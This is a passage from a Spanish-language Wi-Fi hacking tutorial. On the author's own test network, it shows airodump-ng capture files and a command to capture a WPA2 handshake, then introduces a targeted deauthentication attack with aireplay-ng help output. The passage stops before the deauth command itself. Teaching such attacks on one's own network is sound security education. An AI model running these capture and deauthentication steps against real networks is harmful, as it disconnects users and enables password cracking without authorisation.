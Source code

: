 - Si paramos esto y hacemos un `ls` vemos las capturas.

```bash
❯ ll
.rw-r--r-- root root  18 KB Wed Aug 30 12:27:14 2023  Captura-01.cap
.rw-r--r-- root root 2.0 KB Wed Aug 30 12:27:16 2023  Captura-01.csv
.rw-r--r-- root root 590 B  Wed Aug 30 12:27:16 2023  Captura-01.kismet.csv
.rw-r--r-- root root  29 KB Wed Aug 30 12:27:16 2023  Captura-01.kismet.netxml
.rw-r--r-- root root 449 KB Wed Aug 30 12:27:16 2023  Captura-01.log.csv
```

- La mas interesante es la **.cap** ya que hay es donde esta el **handshake** y toda la información importante.

```bash
❯ file *
Captura-01.cap:           pcap capture file, microsecond ts (little-endian) - version 2.4 (802.11, capture length 65535)
Captura-01.csv:           ASCII text, with CRLF line terminators
Captura-01.kismet.csv:    ASCII text, with very long lines, with CRLF, LF line terminators
Captura-01.kismet.netxml: XML 1.0 document, ASCII text
Captura-01.log.csv:       CSV text
```

## Ataque para capturar el Handshake (Deautenticación dirigido)

- Este es una de los ataques mas comunes. 

- Vamos a seguir monitoreando el trafico de la red que creamos.

```bash
❯ airodump-ng -c 6 -w Captura --essid MiguelWifi wlan0mon
```

<p align="center">
<img src="/assets/wifi/hacking-wpa2/webnew.png">
</p>

- Este es el equipo que quiero expulsar de la red **80:30:49:81:DC:AD** (Estos ataques solo funcionan para **(WPA/WPA2**) de autenticacion **PSK** los de usuario y contraseña son otro tipo de ataque.

- Vamos a usar `aireplay-ng`.

```bash
❯ aireplay-ng --help | tail -n 13
      --deauth      count : deauthenticate 1 or all stations (-0)
      --fakeauth    delay : fake authentication with AP (-1)
      --interactive       : interactive frame selection (-2)
      --arpreplay         : standard ARP-request replay (-3)
      --chopchop          : decrypt/chopchop WEP packet (-4)
      --fragment          : generates valid keystream   (-5)
      --caffe-latte       : query a client for new IVs  (-6)
      --cfrag             : fragments against a client  (-7)
      --migmode           : attacks WPA migration mode  (-8)
      --test              : tests injection and quality (-9)

      --help              : Displays this usage screen
```
